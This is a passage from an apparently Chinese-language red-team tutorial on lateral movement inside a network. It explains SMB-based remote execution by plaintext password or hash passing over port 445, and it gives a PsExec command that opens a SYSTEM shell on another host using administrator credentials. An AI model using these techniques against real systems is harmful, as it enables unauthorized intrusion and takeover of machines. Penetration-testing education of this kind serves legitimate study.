 [![](assets/1702372940-d768384e709be9963088ffd52b758c5c.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/8.png)

缺点：第三方软件会被杀软查杀

## [](#SMB%E6%A8%AA%E5%90%91 "SMB横向")SMB 横向[](#SMB%E6%A8%AA%E5%90%91)

利用 SMB 服务可以通过明文或 hash 传递来远程执行，条件 445 服务端口开放。

#### [](#psexec%EF%BC%88windows%E5%AE%98%E6%96%B9%E5%B7%A5%E5%85%B7%EF%BC%89 "psexec（windows官方工具）")psexec（windows 官方工具）[](#psexec%EF%BC%88windows%E5%AE%98%E6%96%B9%E5%B7%A5%E5%85%B7%EF%BC%89)

可获取交互式 shell 使用工具为 windows 官方工具

下载地址：[https://docs.microsoft.com/en-us/sysinternals/downloads/pstools](https://docs.microsoft.com/en-us/sysinternals/downloads/pstools)

```bash
PsExec64.exe \\192.168.91.178 -u administrator -p Abcd1234 -s cmd
```
